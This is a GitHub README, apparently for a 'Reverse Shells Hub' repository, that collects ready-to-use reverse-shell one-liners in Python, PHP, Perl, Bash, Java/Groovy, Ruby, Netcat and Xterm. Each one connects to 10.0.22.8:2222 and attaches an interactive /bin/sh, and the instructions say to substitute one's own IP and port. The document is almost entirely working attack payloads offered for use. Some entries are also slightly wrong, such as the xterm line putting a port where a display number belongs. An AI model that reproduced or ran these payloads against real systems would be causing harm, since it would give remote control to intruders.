 # Reverse_Shells_Hub - XORPIOv

![](https://github.com/XORPIOv/lib/blob/main/sharingan.png)

**Reverse Shells Hub is a repository containg reverse shells for most used languages**

Download all the Reverse Shells on Linux by the command  
```bash
git clone https://github.com/XORPIOv/reverse_shells.git
OR download as **ZIP FILE** for Windows or Linux
```
## Shells
Find the **latest versions of all the scripts in [the releases page](https://github.com/XORPIOv/reverse_shells.git)**.
## Python
```bash
# XORPIOv PYTHON SHELL | A Reverse Shell in PYTHON.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.22.8",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## Php
```bash
// XORPIOv PHP SHELL | A Reverse Shell in PHP.
// Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
//
// Description
// ------------
// Change IP Address && PORT to local IP && PORT.

php -r '$sock=fsockopen("10.0.22.8",2222);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Perl
```bash
# XORPIOv PERL SHELL | A Reverse Shell in PERL.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

perl -e 'use Socket;$i="10.0.22.8";$p=2222;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Bash
```bash
# XORPIOv BASH SHELL | A Reverse Shell in BASH.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

bash -i >& /dev/tcp/10.0.22.8/2222 0>&1
```
## Java
```bash
/*

XORPIOv JAVA SHELL | A Reverse Shell in JAVA.
Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv

Description
------------
This shell / script will allow you to make an outbound connection to local IP Address and port.
Change IP Address && PORT to local IP && PORT.

*/

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.22.8/2222;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Ruby
```bash
# XORPIOv RUBY SHELL | A Reverse Shell in RUBY.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

ruby -rsocket -e'f=TCPSocket.open("10.0.22.8",2222).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat
```bash
# XORPIOv NETCAT SHELL | A Reverse Shell in NETCAT.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

nc -e /bin/sh 10.0.22.8 2222
```
## Xterm
```bash
# XORPIOv XTERM SHELL | A Reverse Shell in XTERM.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

xterm -display 10.0.22.8:2222
```

**ReverseShellsHub** will always be updated
